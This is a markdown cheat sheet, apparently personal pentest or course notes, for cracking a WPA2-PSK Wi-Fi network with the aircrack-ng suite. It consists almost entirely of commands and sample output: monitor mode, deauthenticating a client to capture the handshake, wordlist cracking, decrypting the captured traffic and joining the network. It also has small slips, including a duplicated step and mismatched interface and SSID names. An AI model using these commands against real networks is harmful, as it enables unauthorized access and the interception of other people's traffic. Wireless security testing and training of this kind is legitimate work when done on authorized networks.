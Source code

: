 
# Set wlan into monitor mode
```bash
sudo airmon-ng start wlan1
```
-----------------------

# Identify targets 
```bash
sudo airodump-ng wlan1mon
```
-----------------------

# Identify targets 
```bash
sudo airodump-ng wlan1mon
```
-----------------------

# Specify target to sniff
```bash
sudo airodump-ng wlan1mon -c 3 -w wpa --essid KPN235434 --bssid 34:08:04:09:3D:38
```
#* We need to make sure that the AUTH is PSK because this does not work for MGT (Enterprise)

CH  3 ][ Elapsed: 12 s ][ 2020-02-29 13:30 ][

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 34:08:04:09:3D:38  -45  87      107       69    1   3  54e. WPA2 CCMP   PSK  wifu

 BSSID              STATION            PWR   Rate    Lost  Packets  Probes

 34:08:04:09:3D:38  00:18:4D:1D:A8:1F  -26   54-54      0       31
-----------------------

# Deauth the client with aireplay-ng
```bash
sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon
```

  -a -> is BSSID target Access point
  -c -> is the client connected to it
-----------------------

# In airodump we should see the handshake is captured

CH  3 ][ Elapsed: 52 s ][ 2020-02-29 13:31 ][ WPA handshake: 34:08:04:09:3D:38

Get more packages for later use

-----------------------

# Crack hash with aircrack-ng
```bash
aircrack-ng -w /usr/share/john/password.lst -e KPN235434 -b 34:08:04:09:3D:38 wpa-01.cap
```

                              Aircrack-ng 1.5.2

      [00:00:00] 3424/3559 keys tested (3516.42 k/s)

      Time left: 0 seconds                                     100.00%

                              KEY FOUND! [ Password!123 ]


      Master Key     : 27 A6 FB B3 FA 30 4C CD EE E5 8E 88 36 D0 CC 6D
                       A8 0D AB FE 06 D7 68 DF A1 0B 9F C7 30 03 4F 47

      Transient Key  : 8F C7 EF EF EF EF EF EF 60 1D EC 08 B7 4A 22 71
                       42 A1 A1 35 F2 76 DB C0 A4 42 06 15 5F E0 46 4D
                       E9 10 2F CD 51 22 CE 2E 77 CF 5E 69 DB E4 7C C5
                       FA 72 9A 45 25 D4 D6 53 8B 05 35 2D 24 01 C9 B6

      EAPOL HMAC     : AB D2 9E 97 66 C7 A6 77 7E 63 43 73 CC 73 9A 37
-----------------------

# Verify it's correct by decrypting captured packagees
```bash
airdecap-ng -b 34:08:04:09:3D:38 -e wifu -p Password!123 wpa-01.cap
```
Number of decrypted WPA  packets        37

-----------------------

# Connecting to the wifi

Create supplicant conf wpa.conf
```bash
network={
    ssid="SSID HERE"
    psk="PASSWORD HERE"
    scan_ssid=1
    key_mgmt=WPA-PSK
    proto=WPA2
}
```
Connect via supplicant
```bash
sudo wpa_supplicant -D nl80211 -i wlan0 -c wpa.conf
```
On another terminal get an IP from DHCP server
```bash
sudo dhclient wlan0 -v
```
